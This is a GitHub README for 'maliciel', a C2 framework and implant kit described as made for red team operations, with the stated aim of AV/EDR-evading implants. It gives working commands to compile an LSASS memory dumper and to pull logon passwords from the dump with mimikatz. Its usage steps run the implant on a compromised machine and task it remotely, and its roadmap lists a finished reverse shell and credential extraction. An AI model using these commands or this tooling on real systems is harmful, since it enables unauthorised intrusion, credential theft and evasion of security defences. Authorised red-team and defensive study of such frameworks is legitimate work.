

<a name="readme-top"></a>
[](https://www.python.org/) 
[](https://www.docker.com/) 

[](https://www.mingw-w64.org/) 


<!-- [](https://github.com/t3l3machus/Villain/blob/main/LICENSE.md) -->

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/SeraRepo/maliciel">
    
  </a>

<h3 align="center">maliciel</h3>

  <p align="center">
    A custom C2 made for red team operation.
    <br />
    <a href="https://github.com/SeraRepo/maliciel"><strong>Explore the docs »</strong></a>
    <br />
    <br />
    <a href="https://github.com/SeraRepo/maliciel/issues">Report Bug</a>
    ·
    <a href="https://github.com/SeraRepo/maliciel/issues">Request Feature</a>
  </p>
</div>


<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#repository-organization">Repository Organization</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#roadmap">Roadmap</a></li>
    <li><a href="#contributing">Contributing</a></li>
    <!-- <li><a href="#license">License</a></li> -->
    <li><a href="#acknowledgments">Acknowledgments</a></li>
  </ol>
</details>


<!-- ABOUT THE PROJECT -->
## About The Project



maliciel is a project about C2 creation and maldev training. 

The project is divided into two parts: the first is the creation of a Command Center (C2) to create and control implants, and the second is the creation of a resource base for maldev training.

C2 arose from a need for a customised solution for the Red Team, as existing solutions had limited effectiveness. The idea is to create a tool that can generate implants that are undetectable by AV/EDR solutions, discreet and resilient; and to be able to control these implants.

<!-- Add description of the project here-->

<p align="right">(<a href="#readme-top">back to top</a>)</p>


### Repository Organization

The "Project" folder contains the technical solution (maliciel). It is currently composed of three subfolder : the "C2", which is composed of a server and a CLI interface ; the "Implant", which is currently the source code of our implant ; and the "Maliciel", an undetectable shellcode and code injector launcher.

The "Documentation" folder contains all documentation needed to understand and continue the project.


<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- GETTING STARTED -->
## Getting Started

### Prerequisites

The following software are mandatory in order for the project to work:
* Python >= 3.9
* Docker >= 20.10
* docker-compose >= 1.29
* MinGW-w64 >= 10.2

### Installation

1. Clone the repo
   ```sh
   git clone https://github.com/SeraRepo/maliciel.git
   ```
2. Install the CLI interface
    - Install the python dependencies
      ```sh
      cd Project/C2/CLI
      python3 -m pip install -r requirements.txt
      ```
    - Launch the CLI
      ```sh
      python3 -m maliciel-C2.py
      ```
3. Install the C2 server
    - On the machine or cloud you want the server to be
    - Clone the repo
      ```sh
      git clone https://github.com/SeraRepo/maliciel.git
      ```
    - Launch the server
      ```sh
      cd Project/C2/
      docker-compose up
      ```
4. Install Packages
	- Install VCPKG
		```sh
		git clone https://github.com/Microsoft/vcpkg.git
		.\vcpkg\bootstrap-vcpkg.bat
		```
	- Install packages
		```sh
		.\vcpkg.exe integrate install
		.\vcpkg.exe install boost-uuid:x64-windows
		.\vcpkg.exe install boost-property-tree:x64-windows
		.\vcpkg.exe install boost-system:x64-windows
		.\vcpkg.exe install cpr:x64-windows
		.\vcpkg.exe install nlohmann-json:x64-windows
		```
5. Usage Dump Lsass
	- Compile with MinGW [LINUX]
		```sh
		cd Project\Implant\maliciel\Dump
		x86_64-w64-mingw32-g++ -O2 dump.cpp -o dump.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
		```
	- Dump Lsass [WIN]
		```sh
		.\dump.exe namedump.dmp
		```
	- Read Dump with Mimikatz [WIN]
		```sh
		.\mimikatz.exe
		sekurlsa::minidump c:\pathOfDump\namedump.dmp
		sekurlsa::logonpasswords
		```


<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- USAGE EXAMPLES -->
## Usage

### Maliciel

See the README.md on the /maliciel folder.

### C2

1. Launch the C2 server, it can be launched localy or in a cloud server
```sh
  cd C2/ 
  sudo docker-compose up
```

2. Change the IP adress on the CLI ('C2/CLI/maliciel-C2.py')

3. Compile the implant via Visual Studio
    
    Open Implant/maliciel.sln via Visual Studion
    
    Run the Build command

4. Launch the executable file on the compromise machine

5. Send command to the C2 server via the CLI

    - Send commmand

      ```sh
      python maliciel-C2.py add-task --task-type [task_name] --option [option1],[option2] 
      ```

    - List commands sent

      ```sh
      python maliciel-C2.py list-tasks
      ```

    - List results returned

      ```sh
      python maliciel-C2.py list-results
      ```

    - List history 

      ```sh
      python maliciel-C2.py list-history
      ```


<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- ROADMAP -->
## Roadmap

- [x] Create the C2 server
- [x] Create the CLI interface
- [x] Create the basic implant
    - [x] Communication with the C2
    - [x] Accept command
    - [x] Spawn Reverse shell
    - [x] Extract LSASS credentials
- [x] Create shellcode injector generator
- [ ] Add linux compilation for the implant
- [ ] Rework CLI interface 
- [ ] Add the generator to the solution
- [ ] Create C++ Shellcode generator
- [ ] Add fileless shellcode to the shellcode injector generator

See the [open issues](https://github.com/SeraRepo/maliciel/issues) for a full list of proposed features (and known issues).

<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to learn, inspire, and create. Any contributions you make are **greatly appreciated**.

If you have a suggestion that would make this better, please fork the repo and create a pull request. You can also simply open an issue with the tag "enhancement".
Don't forget to give the project a star! Thanks again!

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<p align="right">(<a href="#readme-top">back to top</a>)</p>


<!-- LICENSE -->
<!-- ## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p> -->
